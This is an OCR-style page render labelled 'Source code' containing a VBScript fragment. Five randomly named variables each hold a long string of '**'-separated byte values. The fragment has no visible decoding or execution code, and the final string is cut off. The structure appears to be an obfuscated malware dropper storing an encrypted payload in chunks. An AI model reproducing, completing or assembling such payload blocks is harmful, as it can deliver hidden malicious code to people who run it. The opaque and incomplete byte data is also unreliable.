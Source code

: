 ```vbscript
lgbtSBr7aI = ("**162**241**1**235**82**7**53**100**81**15**181**249**7**18**4**255**142**33**187**58**88**15**46**214**68**227**140**25**179**33**129**143**27**97**173**217**220**74**2**208**38**54**119**52**73**147**52**73**255**105**210**222**81**252**147**167**179**157**196**59**156**39**105**124**34**38**174**235**88**174**61**255**197**4**104**79**105**177**39**188**8**164**36**237**17**251**82**198**13**104**59**92**221**209**103**208**242**68**159**160**245**32**123**194**213**3**218**44**221**160**123**255**26**62**63**70**33**114**132**143**73**229**45**98**159**111**33**32**158**18**41**80**36**146**161**112**136**22**137**162**80**40**68**150**161**48**20**13**54**151**56**27**6**217**3**150**115**220**157**123**126**100**9**252**228**19**104**13**216**236**64**114**20**8**246**73**144**77**32**72**218**83**219**17**92**196**104**20**11**209**89**98**144**0**236**135**227**111**4**40**160**47**18**44**100**67**253**139**144**8**32**6**216**129**236**129**166**232**216**187**1**98**81**48**")

lgbtJmWMfx = ("151**167**28**34**142**250**173**134**118**50**39**89**129**69**18**103**21**205**101**31**206**245**187**34**19**136**195**206**71**201**141**41**131**28**163**116**50**157**216**63**146**139**224**129**166**130**191**55**216**134**115**158**236**140**229**96**167**224**250**35**184**217**13**235**172**116**180**86**58**145**89**18**35**33**196**241**1**139**104**20**130**226**96**20**229**91**245**74**130**246**151**0**37**244**177**243**99**201**158**171**217**219**62**99**43**55**182**110**110**136**93**175**141**16**73**49**206**106**178**207**55**209**112**101**31**85**100**215**44**22**250**3**223**170**167**144**110**165**209**255**128**184**119**156**146**36**98**212**84**21**95**104**155**249**81**102**191**17**161**71**22**168**169**114**80**149**145**4**33**50**96**132**124**222**66**99**138**180**224**33**198**155**175**191**144**79**208**132**122**25**73**208**5**46**140**19**51**93**71**51**133**17**82**4**42**160**79**145**233**136**249**64**199**143**54**11**57**48**11")

lgbt4K5b4H = ("7**113**159**145**255**235**171**191**101**52**91**58**8**254**148**153**85**183**21**168**201**41**140**154**52**96**212**132**178**128**34**9**146**52**57**94**250**121**179**102**224**194**110**215**224**185**123**87**89**167**252**194**24**141**100**69**240**96**124**51**209**123**140**9**159**242**163**41**83**225**142**192**196**176**104**69**108**104**48**51**123**186**145**88**204**136**224**179**140**1**218**2**162**68**71**156**192**75**149**175**27**157**224**33**74**149**131**24**213**46**82**165**66**151**167**217**201**127**15**209**156**239**51**79**211**27**240**203**152**247**194**220**236**242**122**127**71**67**113**218**163**91**110**243**250**174**229**180**61**247**209**111**37**94**239**237**170**113**243**46**65**63**205**137**147**78**31**80**252**124**251**186**177**239**57**129**89**178**181**79**215**21**85**71**71**204**235**32**155**94**245**157**67**193**181**9**1**190**153**133**169**190**198**253**107**45**94**108**242**219**92**82**216**155**231**152**")

lgbtiPwpPN = ("215**253**245**84**69**240**118**163**252**53**237**78**170**154**190**21**222**219**175**6**156**60**29**180**169**180**111**233**21**18**234**72**124**235**207**108**101**76**33**239**89**243**104**67**70**159**47**128**66**243**120**122**20**197**184**179**74**130**134**250**167**155**148**53**173**108**14**53**206**157**113**198**219**169**244**213**92**239**253**133**230**227**207**87**253**174**226**82**48**239**140**40**143**176**217**47**47**121**125**234**181**203**86**246**60**76**113**59**62**131**184**97**189**194**179**165**184**116**235**226**122**195**146**139**84**139**145**141**123**78**216**193**181**153**142**179**190**56**107**230**178**79**28**224**45**25**56**93**33**169**169**185**24**150**102**243**43**221**98**122**202**218**62**249**193**195**212**172**170**39**89**130**226**146**91**113**79**118**222**164**206**181**15**220**157**147**135**190**231**181**117**42**91**44**109**47**12**198**95**245**202**136**32**30**44**255**241**94**150**113**118**156**56**11")

lgbtWdtpAA = ("7**102**254**35**225**190**250**143**69**106**194**21**182**131**19**108**60**102**193**248**243**24**103**147**140**110**180**2**57**56**140**110**72**67**17**201**32**102**198**200**52**133**148**200**80**119**7**51**51**117**36**3**145**49**163**219**59**141**177**30**117**164**69**230**180**153**73**104**85**127**81**155**116**179**225**214**86**169**228**62**53**40**191**119**240**241**152**61**68**171**210**35**140**94**56**185**151**219**53**237**178**217**88**184**91**150**101**235**228**220**90**249**131**52**69**112**38**45**61**53**191**120**154**105**135**165**88**124**44**71**85**85**89**34**233**216**86**235**240**106**103**109**84**236**106**223**160**214**214**240**166**35**78**157**131**130**236**136**180**192**29**165**219**250**111**175**202**45**74**116**113**250**227**169**79**177**94**64**112**153**23**223**166**127**105**249**150**242**74**105**188**212**194**254**238**27**135**67**170**106**217**195**59**203**179**110**246**61**107**63**33**47**57**31**178**238*")

```